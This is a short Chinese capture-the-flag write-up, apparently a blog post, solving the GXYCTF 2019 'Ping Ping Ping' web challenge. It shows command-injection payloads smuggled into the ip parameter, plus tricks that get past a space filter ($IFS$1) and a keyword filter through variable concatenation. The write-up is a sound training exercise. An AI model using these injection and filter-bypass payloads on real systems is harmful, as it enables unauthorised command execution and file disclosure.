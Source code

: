 ```yaml
---
title: GXYCTF 2019 Ping Ping Ping
date: 2022-05-30 14:21:02
toc: false
tags:
- 命令执行
categories: CTF-Web
my: Ping_Ping_ping
img: https://nssctf.wdf.ink/img/xmj/1.jpeg
---
```


打开题目开门见山直接告诉我们可以进行命令执行

首先这道题是ping我们先ping一下本地，好的执行的非常的慢，而Linux命令执行我们可以直接通过`;`进行后面的命令执行首先我们执行`ls`

```
?ip=;ls
```

![](https://nssctf.wdf.ink/img/xmj/image-20220530142548886.png)

太友好了这道题，我们只需要`cat flag` 好直接结束

![](https://nssctf.wdf.ink/img/xmj/image-20220530142640834.png)

过滤了空格，我们直接把空格改为`$IFS$1`，然后又出现了

![](https://nssctf.wdf.ink/img/xmj/image-20220530142740533.png)

这种直接拼接绕过拿到flag

payload:

```
?ip=;b=ag;cat$IFS$1fl$b.php
```

开始 以为自己做错了,一直没有回显，后面一直检查发现这个flag藏在源码里
